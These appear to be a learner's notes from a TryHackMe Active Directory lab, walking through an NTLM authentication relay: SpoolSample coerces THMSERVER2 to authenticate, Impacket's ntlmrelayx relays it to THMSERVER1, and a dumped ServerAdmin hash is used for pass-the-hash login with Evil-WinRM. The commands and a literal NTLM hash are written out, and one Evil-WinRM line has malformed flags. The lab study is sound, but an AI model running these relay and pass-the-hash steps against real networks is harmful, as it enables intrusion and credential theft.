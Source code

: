 ```yaml
---
title: '!! Performing the Exploit !!'
updated: 2023-04-28T10:22:25.0000000+04:00
created: 2023-04-25T08:13:42.0000000+04:00
---
```


!! Performing the Exploit !!
Tuesday, April 25, 2023
8:13 AM
We will be using SpoolSample to exploit the authentication relay.

It is a C# exploit but has already been compiled for you and stored in the C:\Tools\\ directory on THMWRK1.

### Steps to perform

1.  We will use Spoolsample.exe to coerce THMSERVER2 to authenticate to us on our AttackBox
2.  Then Impacket's ntlmrelayx.py to relay the authentication attempt THMSERVER1.

*<u>Note that if you are using your own VM, you will need to make sure you have the updated version of Impacket that supports SMBv2.</u>*

## \# Step 1: Setup the NTLM relay (on Attacker Machine)

### NTLM Relay Command 
| Command | python3.9 /opt/impacket/examples/ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -debug |
|---------|---------------------------------------------------------------------------------------------|

### Note:
If we specify the hostname of THMSERVER1 instead of the IP, the host could request that we use Kerberos authentication instead of NTLM. Hence we should specify the IP instead.

![image1](image1-127.png)

---------------------------------------------------------------------------------------------------------------------------

## \# Step 2: Coerce THMSERVER2 to authenticate to us. (On SSH Machine)

In an SSH terminal on THMWRK1, execute the following:

### SSH session on THMWRK commands:
| Command | SpoolSample.exe THMSERVER2.za.tryhackme.loc "Attacker IP" |
|---------|-----------------------------------------------------------|

![image2](image2-63.png)

## Step 3: Getting results

If all goes well, you should have received an authentication attempt and a relay to THMSERVER1.

![image3](image3-44.png)

![image4](image4-31.png)

## Step 4: Pivoting & Privilege escalation

- Now that we have dumped some hashes we need to use this for pivoting/privilege escalation

1.  Using the following Server Admin Hash:

ServerAdmin:500:aad3b435b51404eeaad3b435b51404ee:3279a0c6dfe15dc3fb6e9c26dd9b066c:::

2.  We will attempt to pash the hash using EvilWinRM

| Command | Evil-WinRM -i THMServer1_IP -u ServerAdmin -H ServerAdmin_hash                |
|---------|-------------------------------------------------------------------------------|
| Command | Evil-WinRM -I THMSERVER-IP - Server Admin -H 3279a0c6dfe15dc3fb6e9c26dd9b066c |

![image5](image5-21.png)

